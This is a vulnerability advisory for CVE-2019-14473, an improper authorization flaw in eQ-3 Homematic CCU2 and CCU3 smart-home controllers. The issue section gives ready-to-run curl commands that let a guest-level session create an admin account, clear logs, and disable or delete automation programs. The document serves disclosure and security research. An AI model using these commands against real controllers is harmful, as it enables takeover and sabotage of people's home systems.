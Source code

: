 ```yaml
---
layout: post
title:  "CVE-2019-14473 eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. Consequently, a valid guest level or user level account can create a new admin level account, read the service messages, clear the system protocol or modify/delete internal programs, etc. pp."
date:   2019-08-03 22:38:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14473
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. Consequently, a valid guest level or user level account can create a new admin level account, read the service messages, clear the system protocol or modify/delete internal programs, etc. pp.
- Vulnerability Type: CWE-285 Improper Authorization
-	CVSSv3 Base Score: 9.9
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 03.08.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 07.05.2019 for similar issue of CVE-2019-14475 / for valid guest level and user level accounts on 01.08.2019
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU2: 2.47.12, 2.47.15 tested, but certainly even before that too
- Affected Firmware version of CCU3: 3.47.10, 3.47.15 tested, but certainly even before that too

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page objects and the WebUI calls behind in browser developer console, an Improper Authorization vulnerability has been identified, which can be exploited in order to start an Escalation of Privileges, Denial of Service and Information Disclosure at the WebUI. This vulnerability can be exploited by authenticated guest level and user level accounts.<br>
<br>
After login as guest or user level account use the given SessionID as shown in address bar ```...?sid=@JLS011UTXB@```<br>
<br>
Escalation of Privileges - create your own admin level (```level = 8```) account 'MyOwnAdminAccount' with passwort 'myPassword' and visible on login page:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "saveUser";integer iUserid = 0;string userName = "MyOwnAdminAccount";string firstName = ""; string lastName = "";string sSysVars = "";integer iPwChanged = 0; string pw = "myPassword";integer iLogin = 0;integer dev = 0;integer level = 8;boolean bEasy = true; string phone = "";string mail = "";]]></prototypejs>'```<br>
<br>
Now you can login with that user with full access control to the system.<br>
<br>
You won't create another admin account, but you want to do other tasks on the system?<br>
<br>
Just some examples...<br>
Clear the system protocol:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "ClearHistoryData";]]></prototypejs>'```<br>
<br>
Read the service messages (device communication errors, etc.):<br>
```curl -X POST -i 'http://IP_der_CCU/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "UpdateUI";]]></prototypejs>'```<br>
<br>
manipulation of programs/scripts (Home page > Programs and connections > Programs)<br>
a program/script is identified by an ID, you may just guess the number or you iterate through a range.
This example is manipulating the program/script ```id = "1603"```<br>
deactivate a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetActive";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to inoperable:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetOperate";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to invisible:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetVisible";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Delete a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data 'string action = "DeleteProgram";string id = "1603";'```<br>


# CVE

[CVE-2019-14473](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14473)

# CVSSv3 Base Score

CVSSv3 Base Score: 9.9

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
